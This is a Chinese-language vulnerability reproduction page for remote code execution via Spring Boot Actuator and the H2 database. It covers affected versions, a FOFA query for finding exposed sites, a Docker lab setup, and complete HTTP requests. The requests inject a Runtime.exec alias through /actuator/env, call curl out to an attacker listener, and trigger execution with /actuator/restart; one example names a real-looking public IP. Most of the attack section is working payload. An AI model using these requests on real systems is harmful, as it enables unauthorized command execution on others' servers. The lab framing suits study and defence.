








## Spring Boot Actuator H2 RCE

## 漏洞描述

Actuator 是 Spring Boot 提供的服务监控和管理中间件。当 Spring Boot 应用程序运行时，它会自动将多个端点注册到路由进程中。而由于对这些端点的错误配置，就有可能导致一些系统信息泄露、XXE、甚至是 RCE 等安全问题。Actuator 是 Spring Boot 提供的服务监控和管理中间件。当 Spring Boot 应用程序运行时，它会自动将多个端点注册到路由进程中。而由于对这些端点的错误配置，就有可能导致一些系统信息泄露、XXE、甚至是 RCE 等安全问题。

## 漏洞影响

> Spring Boot < 1.5  // 默认未授权访问所有端点
>
> Spring Boot >= 1.5  // 默认只允许访问/health和/info端点，但是此安全性通常被应用程序开发人员禁用

## FOFA

> body="Whitelabel Error Page"

## 源码分析

复现前先说一下如何判断目标站点是否使用Spring Boot框架。Spring Boot框架通常有两个特征点：

网站ico文件是一片绿叶并且特有的报错信息为“Whitelabel Error Page”



##漏洞环境搭建

```
git clone https://github.com/spaceraccoon/spring-boot-actuator-h2-rce.git
```

使用docker启动环境

先cd进入spring-boot-actuator-h2-rce目录然后执行以下命令

```
docker build -t spaceraccoon/spring-boot-rce-lab
docker run -p 8080:8080 -t spaceraccoon/spring-boot-rce-lab
```



访问:http://x.x.x.x:port/actuator，如下存在端点信息



存在端点信息，接着发送如下POST包配置spring.datasource.hikari.connection-test-query的值。

```
POST /actuator/env HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json
Content-Length: 389

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('curl x.x.x.x:port');"}
```



注：CALL EXEC(‘要执行的命令’)

查看/actuator/env信息，配置成功


NC监听，向端点 /actuator/restart 发送POST请求, 重启应用。

```
POST /actuator/restart HTTP/1.1
Host: 39.105.93.185:8080
Content-Type: application/json
Content-Length: 356

{}
```





访问 http://x.x.x.x:port/actuator/restart如下即启动成功





NC成功返回。